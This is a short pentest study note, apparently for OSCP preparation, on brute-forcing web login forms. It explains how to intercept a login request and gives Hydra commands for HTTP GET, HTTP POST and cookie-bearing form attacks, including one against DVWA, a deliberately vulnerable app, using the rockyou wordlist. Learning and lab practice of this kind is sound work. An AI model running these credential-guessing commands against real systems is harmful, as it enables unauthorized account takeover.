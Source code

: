 ```yaml
---
title: "Bruteforce Authentication"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - bruteforce
  - authentication
toc: true
hide_title: true
excerpt: ""
---
```


Most web applications use one or more login forms for accessing restricted user functionality and administration panels.

When you fill out a simple web form with a username and password and then press submit, the authentication mechanism generates an HTTP GET or HTTP POST request.

This request (which contains the username, password and some other necessary values generated in the background) is sent to the webserver where the credentials are tested. **The first step in the exploitation process is to intercept the request (once the required form values have been entered and after the submit button is pressed) before it is sent to the remote server. In this way it is possible to see what values are submitted and which are required by the form.**

An attacker can modify the username and password values repeatedly and send the request to the remote server using Burp Suite or Hydra.

## HTTP-GET

```
hydra -l user -P /usr/share/wordlists/rockyou.txt -f $ip http-get /path
```

## HTTP-POST

```
hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
```

## Send request along with cookies

Consider following request:
![[Pasted image 20250507170410.png]]

As can be seen in the first line of the screenshot, the GET request in this form includes a third parameter called Login. The login parameters contain a static value indicating a login action which will be added to the Hydra http-get-form parameter as a third variable after the username and password variables. There is also a cookie with information such as the DVWA security level and a PHP session ID.

**To make Hydra use the Cookie we also need to add the H parameter to the request** followed by the information we see in line 8 of the screenshot: the security parameter (i.e. low) and the PHP session id (PHPSESSID) value shown in red. After making these modifications the http-form-get parameter will look as follows:

```
hydra 10.11.1.250 -t 2 -l admin -P /usr/share/wordlists/rockyou.txt http-form-get "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low;PHPSESSID=409e45633a8281adb8f182021cfacd14"
```